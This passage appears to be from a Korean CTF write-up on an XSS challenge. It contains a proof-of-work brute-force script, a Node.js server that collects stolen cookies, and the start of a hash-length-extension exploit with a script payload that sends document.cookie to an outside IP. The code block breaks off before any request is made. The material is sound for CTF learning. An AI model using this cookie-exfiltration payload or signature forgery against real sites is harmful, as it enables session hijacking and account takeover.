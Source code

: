 ```python
```

http://110.10.147.166/api.php?q=WW05a2VRPT0sN1l5QTY2cW82NUdRSVE9PSyAAAAAAAAAAAAAAAAAAAAAAAAwAQAAAAAAAHxhR1ZoWkdWeSxhSFIwY0M4eExqRT0sTkRBMHxZbTlrZVE9PSxQSE5qY21sd2RBbytZV3hsY25Rb0luaHpjeUlwQ2p3dmMyTnlhWEIwQ2o0PSx8WTI5dmEybGwsWTI5dmEybGxjeUU9LDdZeUE2NnFvNjVHUUlPMlpsT3lkdE8yTWhTRT0=&sig=48695976fc42f4f4f606c74f9d2df444

이제 이러한 결과물이 나오는데 실제로도 정상적으로 xss가 동작하는 것을 확인할 수 있습니다.

이제 취약점이 발견된 위의 주소를 report 하면 되는데 이 때 챌린지가 있는데 간단하게 스크립트를 작성하여 해결합니다.

```python
import hashlib

i = 0
while True:
    hash = hashlib.sha1(str(i).encode()).hexdigest()
    if hash[0:5] == "eab0e":
        print(i,hash)
        break
    i = i + 1
```

여기서 나온 결과 값과 url을 넘겨주면 아무 반응이 없는데 이때 공격 시나리오를 다시 한번 생각 해봅니다.

문제점이 발견된 URL을 관리자에게 Report을 하였을 때 관리자가 이 URL에 접근을 할 것 이고 이때 xss을 통해 공격을 하여 쿠키 탈취를 시도합니다.

xss을 통해 쿠키 값을 받을 서버를 만들어 봅니다. 간단하게 node.js을 이용하여 만들었습니다.

```javascript
var express = require("express")
var app = express()
var fs = require("fs")

var expressport = 80

var server = app.listen(expressport, function () {
  console.log(`Express server has started on port ${expressport}`)
})

app.get("/", function (req, res) {
  app.get("/cookie", function (req, res) {
    var cookie = req.param("cookie")

    fs.appendFileSync("cookies.txt", cookie + "\n")
  })
})
```

이제 다시 코드를 수정 합니다.

```python
# import os
import requests
from base64 import b64encode
from hashpumpy import hashpump

ori_msg = "Ym9keQ==,7YyA66qo65GQIQ==," # 팀모두!
ori_sig = "9325813a0a951c308d6c5c0c9a462648"
msg_1  = "|{},{},{}".format(b64encode("header".encode()).decode(),b64encode("http/1.1".encode()).decode(),b64encode("404".encode()).decode())
msg_2  = "|{},{},".format(b64encode("body".encode()).decode(),b64encode("""<script\n>document.location="http://27.96.135.144/cookie?cookie="+document.cookie;\n</script\n>""".encode()).decode())
msg_3  = "|{},{},{}".format(b64encode('cookie'.encode()).decode(),b64encode('cookies!'.encode()).decode(),b64encode('팀모두 화이팅!'.encode()).decode())
url = "http://110.10.147.166/api.php"
key_len = None

```